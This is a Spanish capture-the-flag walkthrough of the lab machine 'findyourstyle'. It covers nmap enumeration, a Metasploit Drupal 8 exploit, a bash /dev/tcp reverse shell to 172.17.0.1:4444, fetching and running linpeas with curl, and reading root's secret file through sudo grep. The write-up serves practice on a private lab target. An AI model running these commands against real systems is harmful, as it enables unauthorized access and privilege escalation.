









# Máquina findyourstyle

---

Dificultad -> Fácil

---

Empezamos mapeando los puertos con nmap:

```shell
nmap -p- --open -sCV --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/ 
| /comment/reply/ /filter/tips/ /node/add/ /search/ /user/register/ 
| /user/password/ /user/login/ /user/logout/ /index.php/admin/ 
|_/index.php/comment/reply/
|_http-generator: Drupal 8 (https://www.drupal.org)
|_http-title: Welcome to Find your own Style | Find your own Style
```

Solo vemos el puerto 80 con un Drupal 8, le hago fuzzing pero no encuentro nada asi que con searchsploit miro si Drupal 8 tiene algun exploit:

```sh
searchsploit drupal 8 
```



Hay basatantes, asi me meto a metasploit con `msfconsole` y busco exploits de drupal 8 `search drupal 8` 



De aquí utilizo el 5 `use 5`, miro las opciones `options` y lo ejecuto poniendo la ip a atacar `run RHOST=172.17.0.2`, si todo sale bien, me abre una consola de meterpreter



Aqui, poniendo shell, tenemos una consola dentro de la máquina y aqí de facil ya estamos dentro de la máquina



Desde aquí me mando una revshell de [revshells.com](https://www.revshells.com/) mientras que escucho desde mi máquina

En la shell remota:

```shell
bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'
```

Y en nuestra máquina `nc -lvnp 4444`, ahora, una vez dentro, como siempre hacemos  [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) y seguidamente un `sudo -l` 


Nos pide contraseña, pruebo buscando por SUID `find / -perm -4000 2>/dev/null` pero tampoco encuentro nada interesante, viendo que no encuentro mucho, opto por usar linpeas

Con `sudo python3 -m http.server 80` me hago un servidor donde tengo linpeas y con `curl 172.17.0.1/linpeas.sh -O` me lo descargo.

Ahora le doy permisos de ejecucion `chmod +x linpeas.sh` y lo ejecuto



Buscando en el gigantesco output, encuentro lo siguiente:



Veo que existe el usuario `ballenita` asi que intento entrar con la contraseña `ballenitafeliz`

Ahora como el usuario ballenita hago un `sudo -l` 


Con esto podemos ver carpetas y archivos como root, asi que busco en carpetas protegidas y en /root encuentro algo



Lo leo con grep:

`sudo grep '' /root/secretitomaximo.txt`



Nos dan la contraseña de root, hacemos un `su` y la contraseña



Y somos root :)
